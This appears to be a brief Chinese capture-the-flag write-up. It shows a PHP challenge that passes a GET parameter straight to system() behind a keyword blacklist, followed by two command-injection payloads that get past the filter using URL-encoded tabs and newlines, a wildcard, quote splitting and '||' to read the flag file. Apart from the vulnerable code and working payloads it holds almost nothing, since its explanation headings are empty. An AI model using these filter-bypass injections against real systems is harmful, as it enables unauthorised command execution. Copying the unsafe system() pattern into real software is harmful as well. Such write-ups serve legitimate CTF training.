 # 知识点
# 思路
源码
```bash
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
}
```
payload
```bash
方法一 ?c=tac%09fla?.php%0a
方法二 ?c=nl<fla''g.php||
```
![image.png](./images/20231017_2350506998.png)
